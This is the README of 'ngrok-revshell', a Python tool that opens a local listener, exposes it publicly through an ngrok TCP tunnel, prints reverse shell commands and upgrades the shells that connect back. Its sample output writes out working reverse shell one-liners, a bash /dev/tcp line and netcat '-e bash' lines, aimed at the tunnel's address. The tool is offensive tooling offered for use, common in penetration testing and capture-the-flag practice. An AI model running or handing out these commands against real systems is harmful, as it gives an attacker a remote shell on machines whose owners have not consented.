 # ngrok-revshell

Automate reverse shell setup using ngrok tunnels.

## What it does

- Sets up a local listener on your chosen port
- Creates an ngrok TCP tunnel to expose your listener publicly
- Displays ready-to-use example reverse shell commands with your public IP/port
- Automatically upgrades Linux shells for better interactivity
- Supports both Linux/Mac and Windows shells

## Installation

```bash
# Clone the repository
git clone https://github.com/Nissen96/ngrok-revshell.git
cd ngrok-revshell

# Install dependencies with uv
uv sync
```

## Setup

1. Sign up for an [ngrok account](https://dashboard.ngrok.com/signup) if you don't have one.
2. Get your ngrok auth token: [Your Authtoken](https://dashboard.ngrok.com/get-started/your-authtoken)
3. Set your auth token:
   ```bash
   export NGROK_AUTHTOKEN=your_token_here
   ```
   Or create a `.env` file:
   ```
   NGROK_AUTHTOKEN=your_token_here
   ```

## Usage

```bash
# Basic usage (defaults to bash)
uv run revshell.py 4444

# Specify shell type
uv run revshell.py 4444 powershell
uv run revshell.py 4444 sh
```

## Options

- **PORT**: Local port to listen on (1-65535)
- **SHELL**: Shell type for reverse shell examples (optional, defaults to bash)

### Supported Shells

**Linux/Unix:**
- `sh`, `bash`, `zsh`, `fish`, `dash`, `ash`, `ksh`, `csh`, `tcsh`, `mksh`, `pdksh`

**Windows:**
- `powershell`, `pwsh`, `cmd`

## Example Output

```
[+] Setting up ngrok tunnel...
[+] Listening at 1.2.3.4:12345 (abc123.ngrok.io)...

=============== REVSHELL EXAMPLES ===============

Bash:
────────────────────────────────────────────
bash -i >& /dev/tcp/1.2.3.4/12345 0>&1
────────────────────────────────────────────

Netcat:
────────────────────────────────────────────
nc 1.2.3.4 12345 -e bash
ncat 1.2.3.4 12345 -e bash
────────────────────────────────────────────

[+] Waiting for connection...
    Press Ctrl+C to exit
```

## Features

- **Automatic shell upgrade**: Linux shells get PTY upgrades, aliases, and proper terminal settings
- **Multiple examples**: Bash, Netcat, Python, Perl, Ruby, and PowerShell reverse shells
- **Clean exit**: Automatically closes ngrok tunnels when you exit
- **Cross-platform**: Works on Linux, macOS, and Windows

## Requirements

- Python 3.9+
- ngrok account and auth token
- `uv` package manager (recommended) or `pip`

## License

MIT

